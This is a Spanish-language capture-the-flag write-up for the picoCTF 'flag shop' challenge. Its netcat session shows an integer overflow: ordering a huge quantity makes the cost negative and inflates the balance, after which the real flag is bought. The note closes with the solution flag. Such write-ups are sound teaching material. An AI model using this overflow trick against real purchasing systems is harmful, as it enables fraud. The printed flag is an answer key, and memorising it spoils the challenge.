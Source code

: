 
## Descripción

*There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c). Connect with `nc jupiter.challenges.picoctf.org 4906`.*
## Pistas

*Two's compliment can do some weird things when numbers get really big!*
## Solución

*Webshell*
```
ceciSolis-picoctf@webshell:~$  nc jupiter.challenges.picoctf.org 4906 
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1
 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
123123123

The final cost is: -858338996

Your current balance after transaction: 858340096

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
```
picoCTF{m0n3y_bag5_9c5fac9b}
## Notas Adicionales 

*Nos dan un código al revisarlo nos damos cuenta que solo verifica si el numero es mayor a 0  y cuando lo es lo multiplica por mil y por el numero de banderas a comprar, pero si es negativo el saldo aumenta en vez de bajar al momento de comprarla*
*Aqui se va intentando hasta que nos dio la bandera y teniamos bastante dinero.*
## Referencias 

https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c